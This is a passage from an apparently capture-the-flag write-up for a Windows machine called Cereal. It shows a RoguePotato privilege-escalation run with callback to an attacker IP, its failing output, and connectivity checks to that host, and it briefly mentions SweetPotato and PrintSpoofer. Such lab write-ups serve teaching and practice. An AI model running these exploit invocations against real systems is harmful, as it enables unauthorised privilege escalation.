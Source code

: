 After uploading it, starting the `socat` redirector, and running it, there’s
never a connection back:

    
    
    PS C:\programdata> .\rp.exe -r 10.10.14.15 -e "cmd.exe /c ping 10.10.14.15" -l 9999
    [+] Starting RoguePotato...
    [*] Creating Rogue OXID resolver thread
    [*] Creating Pipe Server thread..
    [*] Creating TriggerDCOM thread...
    [*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
    [*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
    [*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}                  
    [*] IStoragetrigger written:104 bytes
    [-] Named pipe didn't received any connect request. Exiting ...  
    

Some troubleshooting shows that it looks like outbound TCP 135 is blocked.
When I try to connect back on 80, it works:

    
    
    PS C:\Users\sonny> wget 10.10.14.15/test -usebasicparsing
    
    
    StatusCode        : 200
    StatusDescription : OK
    Content           : {116, 101, 115, 116...}
    RawContent        : HTTP/1.0 200 OK
                        Content-Length: 10
                        Content-Type: application/octet-stream
                        Date: Tue, 25 May 2021 19:00:38 GMT
                        Last-Modified: Tue, 25 May 2021 19:01:16 GMT
                        Server: SimpleHTTP/0.6 Python/3.9.2
    
                        t...
    Headers           : {[Content-Length, 10], [Content-Type, application/octet-stream], [Date, Tue, 25 May 2021 19:00:38 GMT], [Last-Modified, Tue, 25 May 2021 19:01:16 GMT]...}
    RawContentLength  : 10
    

But if I change the webserver and the request to 135, it fails to connect:

    
    
    PS C:\Users\sonny> wget 10.10.14.15:135/test -usebasicparsing
    wget : Unable to connect to the remote server 
    At line:1 char:1
    + wget 10.10.14.15:135/test -usebasicparsing
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebException
        + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
    

#### SweetPotato / PrintSpoofer

SweetPotato and [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) get
Windows to connect to them using a print job via the Print Spooler service.
The problem for Cereal is that the OS is actually Windows Server Core:
